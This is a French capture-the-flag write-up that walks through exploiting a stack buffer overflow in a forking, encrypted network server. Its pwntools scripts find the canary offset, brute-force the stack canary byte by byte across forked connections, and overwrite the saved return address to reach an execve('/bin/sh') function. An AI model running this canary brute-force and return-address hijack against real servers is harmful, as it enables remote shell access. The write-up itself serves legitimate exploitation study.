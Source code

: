 # SSP 2

Maintenant que l'on arrive à communiquer avec le serveur, on va chercher des vulnérabilités.

La seule entrée utilisateur est dans la fonction `recv_and_decrypt`.

![alt text](image.png)

La fonction `recv` récupère de la donnée du client et la stocke dans la variable `buf` qui est stockée en stack.
La taille de cette variable est fixe (4104 octets) et on peut envoyer maximum 0x1000 octets donc pas d'overflow.

Le contenu de `buf` est ensuite déchiffré et le résultat est stocké dans `a3` qui est un buffer donné en paramètre.

Seule `handle_client` appelle cette fonction.

![alt text](image-1.png)

Le buffer donné en paramètre est `s` qui est stocké en stack et de taille fixe (264) caractères. On a donc un buffer overflow dans la stack à cet endroit.

Pour le confirmer, je lance le server dans gdb et j'essaie de faire un overflow

```python
io = remote('192.168.1.11', 1337)

cipher = None

init_connexion()
recv_and_decrypt()


encrypt_and_send(b'A' * 0x300)

io.interactive()
```

![alt text](image-2.png)

J'ai la chaine `stack smashing detected` qui m'indique qu'il y a effectivement eu un stack overflow puisque j'ai écrasé le canary.

Pour pouvoir exploiter cet overflow et réécrire `saved_rip`, je vais devoir remettre en place le canary et donc récupérer sa valeur.

Je n'ai pas trouvé de vulnérabilité me permettant de faire fuiter de l'information mais je peux exploiter le comportement du serveur.  
Dans la fonction `main`, lorsque je me connecte au serveur, il appelle la fonction `fork`.

![alt text](image-3.png)

Cette fonction permet de dupliquer le processus, l'un va entrer dans la fonction `handle_client` et c'est avec lui que je vais discuter et l'autre fait un tour de boucle et attend un nouveau client. Donc à chaque connexion nous interagissons avec un fork du serveur de base.

Ce comportement est très souvent retrouvé dans le code d'un serveur car il permet de traiter plusieurs clients en même temps.  
L'un des effets de bord de cette architecture est que le processus n'est jamais arrêté ou redémarré, donc son ASLR et la valeur de son canary ne change pas.  
Il est donc possible de faire du brute-force sur le canary.

Le canary est une valeur sur 64 bits donc un brute-force classique ne marcherai pas, cependant il est possible de faire un brute-force "intelligent" qui va attaquer octet par octet.

Dans un premier temps, cherchons l'offset à partir duquel on écrase le canary. Pour cela be met un break point dans gdb au moment de la comparaison du canary (adresse 0x401DDF) et j'envoie une chaine reconnaissable.

```python
init_connexion()
recv_and_decrypt()

encrypt_and_send(cyclic(0x300, n=8) )

io.interactive()
```

![alt text](image-4.png)

Le canary a été remplacé par `0x6261616161616169`, ce qui correspond à 'iaaaaaab' qui est l'offset 264

![alt text](image-5.png)

Donc à partir du 265e octet je commence à écraser le canary.  
Comme sa valeur ne bouge pas entre deux connexions, je peux tester les 256 possibilités pour ce 265e octet. Normalement il y a une valeur qui correspond au premier octet de mon canary et pour laquel le programme ne devrait pas crash.

Dans un cas normal, le serveur envoie `Closing connection` avant de terminer la connexion donc si on reçois cette chaine, cela veut dire que le programme n'a pas crash.

```python
for x in range(0x100):
    io = remote('192.168.1.11', 1337, level='error')
    init_connexion()
    recv_and_decrypt()

    p = b'A' * 264
    p += p8(x)

    encrypt_and_send(p)

    data = io.recvall(timeout=1)

    if b'Closing connection' in data:
        print(f"Found: canary = {x}")
        break

```

![alt text](image-6.png)

On trouve 0 ce qui est normal car le canary dans Linux commence toujours par 0 (il est donc codé en réalité sur 56 ce qui reste pas brute-forceable)

On peut tester ce qu'il trouve comme 2e octet

```python
for x in range(0x100):
    io = remote('192.168.1.11', 1337, level='error')
    init_connexion()
    recv_and_decrypt()

    p = b'A' * 264
    p += b'\x00' # Linux canary always start by 0
    p += p8(x)

    encrypt_and_send(p)

    data = io.recvall(timeout=1)

    if b'Closing connection' in data:
        print(f"Found: canary = {x}")
        break

```

![alt text](image-7.png)

On a bien trouvé quelque chose et relancer ce programme une seconde fois devrait trouver le même résultat.  
Il n'y a plus qu'à faire de même sur tout le canary

```python
canary = b'\x00'

canary_log = log.progress(f"BF")
while len(canary) != 8:
    for x in range(0x100):
        canary_log.status(f" {canary = } {x:#x}")

        io = remote('192.168.1.11', 1337, level='error')
        init_connexion()
        recv_and_decrypt()

        p = b'A' * 264
        p += canary
        p += p8(x)

        encrypt_and_send(p)

        data = io.recvall(timeout=1)

        if b'Closing connection' in data:
            canary += p8(x)
            break
        io.close()

canary_log.success(f"{canary = }")
```

![alt text](bf_canary.gif)

Maintenant que l'on a trouvé le canary, on peut écraser `saved_rip` et controller le flux d'execution du programme.

Si l'on regarde toutes les fonctions du programme, on tombe sur celle ci qui est un peu bizarre

![alt text](image-8.png)

Elle fait un syscall 59 (execve) avec '/bin/sh' en paramètre donc aller dans cette fonction devrait être suffisant pour récupérer un shell.

Il faut encore connaitre l'offset entre le canary et `saved_rip` mais en plaçant plein de fois l'adresse de cette fonction en mémoire on devrait finir par tomber dessus 

```python
io = remote('ssp.serviel.fr', 1234, ssl=True, level='error')
init_connexion()
recv_and_decrypt()

p = b'A' * 264
p += canary
p += p64(0x4014FB)*10

encrypt_and_send(p)
```

![alt text](image-9.png)